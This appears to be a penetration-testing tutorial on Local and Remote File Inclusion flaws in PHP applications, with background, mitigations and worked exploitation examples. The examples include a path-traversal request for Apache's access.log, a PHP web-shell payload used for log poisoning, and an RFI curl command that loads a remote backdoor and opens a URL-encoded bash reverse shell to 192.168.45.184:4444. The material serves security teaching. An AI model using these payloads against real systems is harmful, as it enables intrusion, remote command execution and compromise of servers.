 # File Inclusion Vulnerabilities: LFI and RFI RCE with URL encoding

## Technical Executive Summary
        

            Saverity: Medium - Critical 
                Depends on the content that you can display

    File Inclusion vulnerabilities, including Local File Inclusion (LFI) and Remote File Inclusion (RFI), are critical security issues that can lead to severe consequences such as unauthorized access, data breaches,     and remote code execution. These vulnerabilities arise when a web application allows the inclusion of files without proper validation and sanitization of user inputs.
    Local File Inclusion (LFI)

    LFI occurs when a web application includes files from the local server's filesystem. This can be exploited to read sensitive files, execute code, and gain unauthorized access to the system. One common technique         to exploit LFI is through Log Poisoning, where malicious code is injected into log files that are later included by the web application.
    Remote File Inclusion (RFI)

    RFI is a more dangerous variant that allows the inclusion of files from remote servers. This can lead to remote code execution by including and executing malicious scripts hosted externally. Exploiting RFI            typically involves hosting a malicious file and crafting a URL to include it in the vulnerable web application.
    Exploitation Techniques

    Identifying Vulnerabilities: Penetration testers use various techniques and tools to identify LFI and RFI vulnerabilities, such as fuzzing and analyzing HTTP responses.
    Log Poisoning: For LFI, testers inject malicious payloads into log files or other writable files on the server to execute code.
    Crafting Exploit URLs: For RFI, testers prepare and host malicious files on remote servers and craft URLs to include these files in the web application.

# Mitigation Strategies

To mitigate these vulnerabilities, web developers should:

    Validate and sanitize all user inputs.
    Disable unnecessary features like allow_url_include in PHP.
    Implement strict access controls to sensitive files and directories.
    Regularly update and patch web application frameworks and libraries.

# Role of Penetration Testers

Penetration testers play a crucial role in identifying and mitigating file inclusion vulnerabilities. By simulating real-world attack scenarios, they help organizations understand their security posture and implement effective countermeasures. Testers use a combination of manual techniques and automated tools to discover vulnerabilities and provide actionable recommendations for remediation.
Conclusion
File Inclusion vulnerabilities pose a significant risk to web applications and can lead to devastating security breaches if not properly addressed. Understanding the mechanisms behind LFI and RFI, along with employing robust security practices, is essential for protecting web applications from these attacks. Penetration testers provide valuable insights and expertise in identifying and mitigating these vulnerabilities, ensuring the security and integrity of web systems.



## Local File Inclusion (LFI)

### Overview

Local File Inclusion (LFI) vulnerabilities allow attackers to include files from the server's filesystem into the running code of a web application. This can lead to Remote Code Execution (RCE) if the included files contain executable code.

### Difference Between LFI and Directory Traversal

- **Directory Traversal**: Allows reading files outside the web root directory.
- **File Inclusion**: Allows including and potentially executing files within the web application's running code.

### Exploiting LFI with Log Poisoning

#### Step-by-Step Example

1. **Identify the Vulnerability**: Find a vulnerable parameter in the web application that accepts file paths.
2. **Modify Log Entries**: Use tools like `curl` to send data to the web application that gets logged.
3. **Include the Log File**: Use the LFI vulnerability to include the modified log file, executing the payload.

#### Practical Example

```bash
kali@kali:~$ curl http://example.com/malek/index.php?page=../../../../../../../../../var/log/apache2/access.log
192.168.50.1 - - [12/Apr/2022:10:34:55 +0000] "GET /meteor/index.php?page=admin.php HTTP/1.1" 200 2218 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
```
Modify the User Agent in Burp Suite to include a PHP code snippet:
```bash
<?php echo system($_GET['cmd']); ?>
```
Send the modified request and include the log file:
```bash
../../../../../../../../../var/log/apache2/access.log&cmd=ps
```
Output Example
```bash
www-data@fbea640f9802:/var/www/html/malek$ ls
admin.php
bavarian.php
css
fonts
img
index.php
js
```
# Remote File Inclusion (RFI)
## Overview

Remote File Inclusion (RFI) vulnerabilities allow attackers to include files from remote servers. This can be more dangerous than LFI because it allows attackers to execute code from external sources.
Exploiting RFI
Step-by-Step Example

    Identify the Vulnerability: Find a vulnerable parameter in the web application that accepts file paths.
    Host a Malicious File: Prepare and host a malicious PHP file on a remote server.
    Craft the Exploit URL: Include the remote file in the vulnerable parameter and pass commands to it.

Practical Example
```bash
curl "http://example.com/malekblog/index.php?page=http://192.168.45.184/backdoor.php&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.184%2F4444%200%3E%261%22"
```

### Conclusion

By understanding and exploiting RFI vulnerabilities, attackers can include and execute remote files on a target system, leading to severe security breaches. Proper security measures, such as disabling allow_url_include and validating input parameters, are essential to prevent such attacks.


